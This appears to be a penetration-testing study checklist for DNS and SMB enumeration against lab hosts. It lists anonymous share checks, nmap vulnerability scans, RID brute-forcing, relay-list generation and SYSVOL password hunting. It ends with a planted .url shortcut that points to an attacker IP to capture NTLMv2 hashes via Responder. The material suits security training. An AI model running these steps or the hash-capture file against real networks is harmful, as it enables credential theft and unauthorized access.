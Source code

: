 <figure><img src="../../.gitbook/assets/Enumeration Checklist-2.png" alt=""><figcaption></figcaption></figure>

* [ ] Use host or dnsrecon command and use -t to select dns record type `host -t mx megacorpone.com` `dnsrecon -d megacorpone.com -t std`

### SMB(139,445)

* [ ] Check for anonymous access:
  * [ ] `smbmap -u guest -H <ip>`
  * [ ] For anonymous `cme smb 10.10.11.202 -u 'anon' -p '' --shares`
* [ ] Scan SMB:

```
sudo nmap --script smb-vuln* <IP>
```

* [ ] If hashes are acquired from mssql or smb then try [smb-relaying.md](../active-directory/ad-exploitation/smb-relaying.md "mention") if message signing disabled. Check with

```bash
nxc smb 10.10.143.69-71(ip range) --gen-relay-list relay.txt
```

* [ ] Check for interesting scripts in SYSVOL: `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts` and might find passwords in .vbs files
* [ ] To bruteforce usernames:

```bash
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
```

* [ ] To mount a share:

```
sudo mount -t cifs -o 'user=username,password=pass' //<ip>/share /mnt/share
```

* [ ] If the share looks like it is being accessed try to capture NTLMv2 hashes by using evil url and responder(analysis mode):

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.8.1.208\%USERNAME%.icon
IconIndex=1
```
